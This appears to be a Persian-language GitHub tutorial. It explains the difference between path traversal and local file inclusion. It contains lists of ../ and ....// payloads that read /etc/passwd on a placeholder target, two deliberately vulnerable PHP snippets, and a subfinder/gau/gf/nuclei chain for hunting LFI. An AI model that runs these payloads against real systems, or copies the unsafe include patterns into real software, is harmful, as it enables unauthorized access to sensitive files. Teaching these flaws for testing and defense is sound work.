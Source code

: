 # Path-Travel-or-Directory-Traversal-AND-Local-File-Inclusion-LFI-


- آسیب‌پذیری‌های **Path Traversal** (یا **Directory Traversal**) و **Local File Inclusion (LFI)** به هم مربوط هستند، ولی تفاوت‌های مهمی دارند.

## بررسی **Path Traversal:**

### **Path Traversal** (دسترسی به مسیر یا پیمودن دایرکتوری):
- در این نوع آسیب‌پذیری، مهاجم می‌تواند مسیر فایل‌ها را دستکاری کند تا به فایل‌ها یا دایرکتوری‌هایی که خارج از دایرکتوری‌های مجاز هستند دسترسی پیدا کند. مثلا، مهاجم می‌تواند با استفاده از `../` به فایل‌های حساس (مثل `/etc/passwd` در سیستم‌های مبتنی بر Linux) دسترسی پیدا کند. این آسیب‌پذیری فقط امکان دیدن محتوای فایل‌ها را می‌دهد و شامل اجرای آن‌ها نیست.
- چطور پیدا کنیم؟
    - فرض کنید یک URL به این صورت را می‌بینیم:

    ```yaml
    https://target.com/vocational/download.php?filename=wjdncjwnjdekcnwdc.pdf
    ```

    حالا شما می‌آیید با استفاده از `/etc/passwd` شروع می‌کنید به گشتن:

    ```yaml
    https://target.com/vocational/download.php?filename=/etc/passwd
    ```

    حالا که پیدا نشد باید با استفاده از `../` بیایم مراحل زیر را بریم:

    ```yaml
    https://target.com/vocational/download.php?filename=/etc/passwd
    https://target.com/vocational/download.php?filename=../etc/passwd
    https://target.com/vocational/download.php?filename=../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../../etc/passwd
    https://target.com/vocational/download.php?filename=../../../../../../../etc/passwd
    Or
    https://target.com/vocational/download.php?filename=....//etc//passwd
    https://target.com/vocational/download.php?filename=....//....//etc/passwd
    https://target.com/vocational/download.php?filename=....//....//....//etc/passwd
    https://target.com/vocational/download.php?filename=....//....//....//....//etc/passwd
    Or
    https://target.com/vocational/download.php?filename=../etc/passwd.pdf
    https://target.com/vocational/download.php?filename=../../../etc/passwd.pdf
    and ...
    ```

### بررسی **Local File Inclusion (LFI)** (گنجاندن فایل محلی):
- در آسیب‌پذیری LFI، مهاجم می‌تواند فایل‌های موجود در سیستم را در چارچوب اجرای برنامه شامل کند. مثلا، اگر ورودی کاربر بدون فیلتر به عنوان مسیر فایل استفاده شود، مهاجم می‌تواند فایل‌های حساس یا حتی فایل‌هایی که کد اجرایی دارند را در برنامه لود کند. این امر می‌تواند به اجرای کد مخرب در سیستم منجر شود.

## **تفاوت و شباهت‌ها:**
- در **Path Traversal** و **LFI** هر دو به دستکاری در مسیر فایل‌ها وابسته هستند، ولی LFI به طور خاص شامل **گنجاندن و احتمالا اجرای فایل‌ها** است، در حالی که Path Traversal فقط برای **دیدن محتوای فایل‌ها** است.
- در **Path Traversal** معمولاً به دیدن محتوای محدود می‌شود، ولی **LFI** می‌تواند به اجرای کد مخرب منجر شود، به خصوص اگر فایل‌های محلی کد اجرایی داشته باشند.

## به طور خلاصه:
- از **Path Traversal**: برای دیدن محتوای فایل‌های حساس استفاده میشه .
- از **LFI**: برای گنجاندن و احتمالا اجرای فایل‌های محلی در چارچوب برنامه که می‌تواند خطرات بیشتری مثل اجرای کد مخرب داشته باشد استفاده میشه . 

## در اینجا مثالی می‌آورم که تفاوت بین **Local File Inclusion (LFI)** و **Path Traversal** را نشان دهد:

### **مثال LFI:**

فرض کنید که یک وب‌سایت پارامتری به نام `file` را دریافت می‌کند که فایل‌های موجود در سرور را در صفحه نمایش می‌دهد. مثلا:

    https://example.com/index.php?file=about.html    



در این کد، ورودی کاربر مستقیماً برای لود کردن فایل استفاده می‌شود:

```yaml
<?php
include($_GET['file']);
?>
```


اگر مهاجم به جای about.html مسیر ../../etc/passwd را وارد کند:

    https://example.com/index.php?file=../../etc/passwd

##### این کد سعی می‌کند فایل /etc/passwd را لود و اجرا کند و محتوای آن را به کاربر نشان دهد. اگر فایل دارای کد PHP باشد، می‌تواند به وسیله سرور اجرا شود و به اجرای کد مخرب منجر شود.



### مثال Path Traversal:

##### در Path Traversal، مهاجم فقط به دنبال مشاهده فایل‌ها است و نه اجرای آن‌ها. برای مثال:
    https://example.com/view-file?path=../../etc/passwd

اگر این پارامتر بدون بررسی استفاده شود:
```
<?php
$file = $_GET['path'];
echo file_get_contents($file);
?>
```

#### در اینجا، فایل /etc/passwd فقط خوانده می‌شود و به خروجی چاپ می‌شود و هیچ عملیاتی روی آن انجام نمی‌شود. Path Traversal امکان دیدن فایل‌های حساس را می‌دهد، ولی نمی‌تواند کد PHP را اجرا کند.
تفاوت اصلی:

#### در LFI فایل مستقیماً توسط برنامه شامل و اجرا می‌شود که امکان اجرای کد مخرب را ایجاد می‌کند.
#### در Path Traversal فایل فقط دیده می‌شود و قابلیت اجرای کد در برنامه وجود ندارد.




-----------


 ## Methodology : 

#### LFI : 
```
subfinder -d target.com | httpx | gau | uro | gf lfi | tee target.txt 

nuclei -list target.txt -tags lfi


```


